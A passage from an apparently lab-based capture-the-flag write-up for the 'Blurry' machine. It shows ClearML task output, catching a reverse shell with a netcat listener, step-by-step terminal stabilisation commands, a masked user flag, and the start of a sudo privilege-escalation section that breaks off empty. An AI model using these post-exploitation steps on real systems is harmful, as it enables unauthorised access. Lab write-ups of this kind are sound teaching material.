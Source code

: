 ```bash
ClearML Task: created new task id=ef082f7a58244cbd9b3f040fec5dea6c
2024-10-12 13:15:12,962 - clearml.Task - INFO - No repository found, storing script code instead
CLEARML-SERVER new package available: UPGRADE to v1.16.2 is recommended!
Release Notes:
### Bug Fixes
- Fix no graphs are shown in workers and queues screens
ClearML results page: http://app.blurry.htb/projects/116c40b9b53743689239b6b460efd7be/experiments/ef082f7a58244cbd9b3f040fec5dea6c/output/log
ClearML Monitor: GPU monitoring failed getting GPU reading, switching off GPU monitoring
```

And I receive a shell as jippity user:

![](/assets/images/Blurry/Pasted%20image%2020241012131705.png)

I will do tty treatment to stabilize the shell, be able to do ctrl+l, ctrl+c without killing the shell, etc:

```bash
jippity@blurry:~$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
jippity@blurry:~$ ^Z
[1]  + 566365 suspended  nc -lvnp 443
❯ stty raw -echo; fg
[1]  + 566365 continued  nc -lvnp 443
                                     reset xterm
jippity@blurry:~$ export TERM=xterm
jippity@blurry:~$ export SHELL=bash
jippity@blurry:~$ stty rows 50 cols 184
```

* `script /dev/null -c bash`: Spawns a tty.
* `ctrl+z`: puts the shell in background for later doing a treatment.
* `stty raw -echo;fg`: gives the shell back again.
* `reset xterm`: resets the terminal to give the bash console.
* `export TERM=xterm`: lets do ctrl+l to clean the terminal.
* `export SHELL=bash`: specifies the system that it's using a bash console.
* `stty rows <YOUR ROWS> cols <YOUR COLUMNS>`: sets the size of the current full terminal window. It is possible to view the right size for your window running `stty size` in a entire new window on your terminal.

The flag is available in jippity's home directory:

```bash
jippity@blurry:~$ ls
automation  clearml.conf  user.txt
jippity@blurry:~$ cat user.txt 
3e****************************74
```

# Access as root

User jippity has sudoers privilege to execute `/usr/bin/evaluate_model /models/*.pth` without entering password (`NOPASSWD`):

```bash
```
